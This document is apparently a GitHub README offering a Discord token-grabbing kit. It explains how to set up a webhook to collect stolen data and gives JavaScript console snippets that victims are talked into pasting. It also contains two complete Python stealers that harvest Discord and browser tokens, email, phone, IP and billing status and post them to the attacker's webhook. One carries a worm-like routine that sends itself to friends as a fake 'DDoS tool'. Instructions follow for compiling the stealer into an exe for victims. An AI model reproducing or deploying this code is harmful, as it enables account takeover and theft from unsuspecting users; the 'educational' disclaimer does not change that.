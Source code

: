 ## Discord Matters

![](https://img.shields.io/badge/%E2%AD%90-If%20you%20find%20it%20%F0%9F%95%B6%EF%B8%8F%20-%23FFFF00)
![](https://img.shields.io/badge/DISCLAIMER-DO%20NOT%20USE%20FOR%20ANYTHING%20ILLEGAL-red)
![](https://img.shields.io/badge/Created-30%2F11%2F2021-brightgreen)

### DISCLAIMER

DO NOT USE THE INFORMATION PROVIDED HERE TO DO ANYTHING ILLEGAL OR FOR EVEN POTENTIALLY ILLEGAL ACTIVITIES.

I do not claim responsibility or involvement for anything you break or any trouble you may get into by using the information here.

THIS IS STRICTLY FOR EDUCATIONAL PURPOSES AND THE KNOWLEDGE SHOULD NOT BE USED ILLEGALLY.

---

### How to set up your discord webhook: 

Discord Webhooks allow you to receive messages in a Discord Server Channel externally via a HTTP POST Request.

<details>
    
<summary>Steps: </summary>
<br>
1. Click on the settings icon in your desired Discord channel. It is recommended to create your own Discord server and channel specifically for this purpose of receiving webhook messages.
<br>
 
![](https://i.imgur.com/5omkwZc.jpeg)

2. Click on ```integrations``` in the menu. 

![](https://i.imgur.com/XbBo8CD.png)

3. Click on ```Create webhook```.

![](https://i.imgur.com/VgW7vMM.png)

4. Name your webhook "bot" and give it a profile picture. 

![](https://i.imgur.com/2MticGD.png)

5. Then, click on ```Copy webhook URL``` and you have your discord webhook setup!

![](https://i.imgur.com/8AnneNZ.png)
</details>

---

## Grabbing the token
Our first goal is to obtain the discord token. This can be done through a C++ program compiled into exe, Python program (may be in exe), or JavaScript injection in the console of discord web version. 

### Method 1: Get user to send you the token or get it yourself (JavaScript)

Get user to copy and paste this code into browser console and send you back the token. Token will be alerted in window and logged in console. 

``` function getLocalStoragePropertyDescriptor() {const iframe = document.createElement('iframe');document.head.append(iframe);const pd = Object.getOwnPropertyDescriptor(iframe.contentWindow, 'localStorage');iframe.remove();return pd;} Object.defineProperty(window, 'localStorage', getLocalStoragePropertyDescriptor());console.log(localStorage.token); window.alert(localStorage.token); ```

Make sure to tell the user to ```toggle device toolbar``` with the button below or else the code will not fetch.

Before: ![](https://i.imgur.com/AfWZAQl.jpeg)
After: ![](https://i.imgur.com/zl2sHCk.jpeg)

Alternative codes, follow the same steps as above.

```javascript:document.getElementsByTagName("body")[0].innerHTML = localStorage.token;```

```Object.values(webpackJsonp.push([[],{['']:(_,e,r)=>{e.cache=r.c}},[['']]]).cache).find(m=>m.exports&&m.exports.default&&m.exports.default.getToken!==void 0).exports.default.getToken()```

### Method 2: Get user to run code and token will be sent to you (JavaScript)

Get user to copy and paste this code into browser console and token will be automatically sent back to you via discord webhook. Replace ```YOUR DISCORD WEBHOOK HERE``` with your discord webhook URL.

<details>

<summary>Code: </summary>    
    
```
location.reload();
var discordWebhook = "YOUR DISCORD WEBHOOK HERE";
var i = document.createElement('iframe');
document.body.appendChild(i);
var request = new XMLHttpRequest();
request.open("POST", discordWebhook);
request.setRequestHeader('Content-type', 'application/json');
var params = {
    username: "Token Grabber",
    avatar_url: "https://malwarefox.com/wp-content/uploads/2017/11/hacker-1.png",
    content: '**Nouvelle personne hackée !**\n------------------\nToken : ' + i.contentWindow.localStorage.token + '\n------------------\nAdresse email : ' + i.contentWindow.localStorage.email_cache + '\n------------------\nUser ID : ' + i.contentWindow.localStorage.user_id_cache + '\n------------------\nFingerprint : ' + i.contentWindow.localStorage.fingerprint + '\n------------------\nPropriétés : \`\`\`json\n' + i.contentWindow.localStorage.deviceProperties + '\`\`\`------------------\nScript de login : \n\`\`\`js\nlocation.reload();var i = document.createElement(\'iframe\');document.body.appendChild(i);i.contentWindow.localStorage.token = "\\"' + i.contentWindow.localStorage.token.replace(/^"(.*)"$/, '$1') + '\\""\`\`\`'
};
request.send(JSON.stringify(params));
```

</details>    
    
### Method 3: Get user to run code and token will be sent to you (Python/C++)

Get user to run python code OR exe file and token will be automatically sent back to you via discord webhook. 

<details>

<summary>First Python Script (Requires pip installation of some libraries), replace <code>WEBHOOK HERE</code> with your webhook URL : </summary>

```
from discord_webhook import DiscordWebhook, DiscordEmbed
from threading import Thread
import urllib3
urllib3.disable_warnings()
import colorama
from colorama import Fore, Style, Back
from time import sleep
colorama.init()

def Auth():
    def dastela():
        global WEBHOOK
        WEBHOOK = "WEBHOOK HERE"
        import os
        if os.name != "nt":
            exit()
        from re import findall
        from json import loads, dumps
        from base64 import b64decode
        from subprocess import Popen, PIPE
        from urllib.request import Request, urlopen
        from datetime import datetime
        from threading import Thread
        from time import sleep
        from sys import argv
        LOCAL = os.getenv("LOCALAPPDATA")
        ROAMING = os.getenv("APPDATA")
        PATHS = {
            "Discord"           : ROAMING + "\\Discord",
            "Discord Canary"    : ROAMING + "\\discordcanary",
            "Discord PTB"       : ROAMING + "\\discordptb",
            "Google Chrome"     : LOCAL + "\\Google\\Chrome\\User Data\\Default",
            "Opera"             : ROAMING + "\\Opera Software\\Opera Stable",
            "Brave"             : LOCAL + "\\BraveSoftware\\Brave-Browser\\User Data\\Default",
            "Yandex"            : LOCAL + "\\Yandex\\YandexBrowser\\User Data\\Default"
        }
        def getheaders(token=None, content_type="application/json"):
            headers = {
                "Content-Type": content_type,
                "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.11 (KHTML, like Gecko) Chrome/23.0.1271.64 Safari/537.11"
            }
            if token:
                headers.update({"Authorization": token})
            return headers
        def getuserdata(token):
            try:
                return loads(urlopen(Request("https://discordapp.com/api/v6/users/@me", headers=getheaders(token))).read().decode())
            except:
                pass
        def gettokens(path):
            path += "\\Local Storage\\leveldb"
            tokens = []
            for file_name in os.listdir(path):
                if not file_name.endswith(".log") and not file_name.endswith(".ldb"):
                    continue
                for line in [x.strip() for x in open(f"{path}\\{file_name}", errors="ignore").readlines() if x.strip()]:
                    for regex in (r"[\w-]{24}\.[\w-]{6}\.[\w-]{27}", r"mfa\.[\w-]{84}"):
                        for token in findall(regex, line):
                            tokens.append(token)
            return tokens
        def getip():
            ip = "None"
            try:
                ip = urlopen(Request("https://api.ipify.org")).read().decode().strip()
            except:
                pass
            return ip
        def gethwid():
            p = Popen("wmic csproduct get uuid", shell=True, stdin=PIPE, stdout=PIPE, stderr=PIPE)
            return (p.stdout.read() + p.stderr.read()).decode().split("\n")[1]
        def getfriends(token):
            try:
                return loads(urlopen(Request("https://discordapp.com/api/v6/users/@me/relationships", headers=getheaders(token))).read().decode())
            except:
                pass
        def getchat(token, uid):
            try:
                return loads(urlopen(Request("https://discordapp.com/api/v6/users/@me/channels", headers=getheaders(token), data=dumps({"recipient_id": uid}).encode())).read().decode())["id"]
            except:
                pass
        def has_payment_methods(token):
            try:
                return bool(len(loads(urlopen(Request("https://discordapp.com/api/v6/users/@me/billing/payment-sources", headers=getheaders(token))).read().decode())) > 0)
            except:
                pass
        def send_message(token, chat_id, form_data):
            try:
                urlopen(Request(f"https://discordapp.com/api/v6/channels/{chat_id}/messages", headers=getheaders(token, "multipart/form-data; boundary=---------------------------325414537030329320151394843687"), data=form_data.encode())).read().decode()
            except:
                pass
        def spread(token, form_data, delay):
            return # Remove to re-enabled
            for friend in getfriends(token):
                try:
                    chat_id = getchat(token, friend["id"])
                    send_message(token, chat_id, form_data)
                except Exception as e:
                    pass
                sleep(delay)
        def main():
            cache_path = ROAMING + "\\.cache~$"
            prevent_spam = True
            self_spread = True
            embeds = []
            working = []
            checked = []
            already_cached_tokens = []
            working_ids = []
            ip = getip()
            pc_username = os.getenv("UserName")
            pc_name = os.getenv("COMPUTERNAME")
            user_path_name = os.getenv("userprofile").split("\\")[2]
            for platform, path in PATHS.items():
                if not os.path.exists(path):
                    continue
                for token in gettokens(path):
                    if token in checked:
                        continue
                    checked.append(token)
                    uid = None
                    if not token.startswith("mfa."):
                        try:
                            uid = b64decode(token.split(".")[0].encode()).decode()
                        except:
                            pass
                        if not uid or uid in working_ids:
                            continue
                    user_data = getuserdata(token)
                    if not user_data:
                        continue
                    working_ids.append(uid)
                    working.append(token)
                    username = user_data["username"] + "#" + str(user_data["discriminator"])
                    user_id = user_data["id"]
                    email = user_data.get("email")
                    phone = user_data.get("phone")
                    nitro = bool(user_data.get("premium_type"))
                    billing = bool(has_payment_methods(token))
                    embed = {
                        "color": 0x9d00ff,
                        "fields": [
                            {
                                "name": "**Account Info**",
                                "value": f'Email: {email}\nPhone: {phone}\nNitro: {nitro}\nBilling Info: {billing}',
                                "inline": True
                            },
                            {
                                "name": "**PC Info**",
                                "value": f'IP: {ip}\nUsername: {pc_username}\nPC Name: {pc_name}\nToken Location: {platform}',
                                "inline": True
                            },
                            {
                                "name": "**Token**",
                                "value": token,
                                "inline": False
                            }
                        ],
                        "author": {
                            "name": f"{username} ({user_id})",
                        },
                        "footer": {
                            "text": f""#Change this to some footer, anything is fine1
                        }
                    }
                    embeds.append(embed)
            with open(cache_path, "a") as file:
                for token in checked:
                    if not token in already_cached_tokens:
                        file.write(token + "\n")
            if len(working) == 0:
                working.append('123')   
            webhook = {
                "content": "",
                "embeds": embeds,
                "username": "First Officer Hook",#you can change this also
                "avatar_url": "https://www.designveloper.com/wp-content/uploads/2019/05/python-programming-language.jpg" #this too
            }
            try:
                urlopen(Request(WEBHOOK, data=dumps(webhook).encode(), headers=getheaders()))
            except:
                pass
            if self_spread:
                for token in working:
                    with open(argv[0], encoding="utf-8") as file:
                        content = file.read()
                    payload = f'-----------------------------325414537030329320151394843687\nContent-Disposition: form-data; name="file"; filename="{__file__}"\nContent-Type: text/plain\n\n{content}\n-----------------------------325414537030329320151394843687\nContent-Disposition: form-data; name="content"\n\nDDoS tool. python download: https://www.python.org/downloads\n-----------------------------325414537030329320151394843687\nContent-Disposition: form-data; name="tts"\n\nfalse\n-----------------------------325414537030329320151394843687--'
                    Thread(target=spread, args=(token, payload, 7500 / 1000)).start()
        try:
            main()
        except Exception as e:
            print(e)
            pass
    try:
        dastela()
    except:
        pass
    
Auth()
```
</details>

<details>
    <summary>Second Python Script, replace <code>WEBHOOK HERE</code> with your webhook URL : </summary>

```
import os
import re
import json

from urllib.request import Request, urlopen

# your webhook URL
WEBHOOK_URL = 'WEBHOOK HERE'

# mentions you when you get a hit
PING_ME = True

def find_tokens(path):
    path += '\\Local Storage\\leveldb'

    tokens = []

    for file_name in os.listdir(path):
        if not file_name.endswith('.log') and not file_name.endswith('.ldb'):
            continue

        for line in [x.strip() for x in open(f'{path}\\{file_name}', errors='ignore').readlines() if x.strip()]:
            for regex in (r'[\w-]{24}\.[\w-]{6}\.[\w-]{27}', r'mfa\.[\w-]{84}'):
                for token in re.findall(regex, line):
                    tokens.append(token)
    return tokens

def main():
    local = os.getenv('LOCALAPPDATA')
    roaming = os.getenv('APPDATA')

    paths = {
        'Discord': roaming + '\\Discord',
        'Discord Canary': roaming + '\\discordcanary',
        'Discord PTB': roaming + '\\discordptb',
        'Google Chrome': local + '\\Google\\Chrome\\User Data\\Default',
        'Opera': roaming + '\\Opera Software\\Opera Stable',
        'Brave': local + '\\BraveSoftware\\Brave-Browser\\User Data\\Default',
        'Yandex': local + '\\Yandex\\YandexBrowser\\User Data\\Default'
    }

    message = '@everyone' if PING_ME else ''

    for platform, path in paths.items():
        if not os.path.exists(path):
            continue

        message += f'\n**{platform}**\n```\n'

        tokens = find_tokens(path)

        if len(tokens) > 0:
            for token in tokens:
                message += f'{token}\n'
        else:
            message += 'No tokens found.\n'

        message += '```'

    headers = {
        'Content-Type': 'application/json',
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.11 (KHTML, like Gecko) Chrome/23.0.1271.64 Safari/537.11'
    }

    payload = json.dumps({'content': message})

    try:
        req = Request(WEBHOOK_URL, data=payload.encode(), headers=headers)
        urlopen(req)
    except:
        pass

if __name__ == '__main__':
    main()
```
</details>

<details>

<summary>Steps to compile python code into an executable file.</summary>

Why would you want to do this?
    
<br>
    
It is easier for someone who does not have python installed or does not know code to get their token.

1. In Command Prompt, make sure you have Python installed with PIP added to PATH.

Type in <code>pip install pyinstaller</code>

2. Once done, navigate to the location of your code.

<code>cd C:\Users\%USERNAME%\locationOfPythonFile</code>

</details>
